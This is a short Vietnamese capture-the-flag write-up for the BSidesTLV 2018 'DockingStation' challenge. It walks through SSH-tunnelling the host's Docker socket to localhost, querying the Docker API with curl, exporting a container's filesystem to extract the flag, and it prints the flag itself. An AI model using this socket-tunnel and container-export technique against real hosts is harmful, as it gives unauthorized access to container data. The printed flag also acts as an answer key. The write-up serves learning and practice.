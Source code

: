 Chạy command có trên description của challenge (lưu ý bỏ phần password và nếu web bị lỗi thì chuyển qua IP) <br/>
Chạy <code> ls -la</code><br/>
Mở một terminal khác, chạy lệnh sau <code>ssh bsidestlv@challenges.bsidestlv.com -p 2222 -NL localhost:3000:/app/docker.sock -f</code> (pass như trên) <br/>
Chạy <code>curl -s http://localhost:3000/containers/json?all=true</code><br/>
Lúc này sẽ ra một file JSON không dễ nhìn lắm, có thể xem ảnh đẹp của nó tại đây <a href="https://capearso.com/bsidestlv-misc/#dockingstation">Link</a> hoặc <a href="https://jctf.team/BSidesTLV-2018/DockingStation/">đây</a><br/>
Tìm <strong>Id</strong> của cái có <strong>Image</strong> là <code>galf</code> ở gần trường <strong>Port</strong><br/>
Chạy <code>curl -s -o galf.tar http://localhost:3000/containers/ &lt;id của bạn&gt;/export</code><br/>
Giải nén tar bằng lệnh <code> tar -xvf galf.tar</code><br/>
Cờ sẽ nằm ở folder <code>/home/flag_is_here</code><br/>
Cờ là <code>BSidesTLV{i_am_r34dy_t0_esc4p3_th3_d0ck3r!}</code><br/>
<strong> Xong nhớ xóa các file còn làm challenge khác</strong>
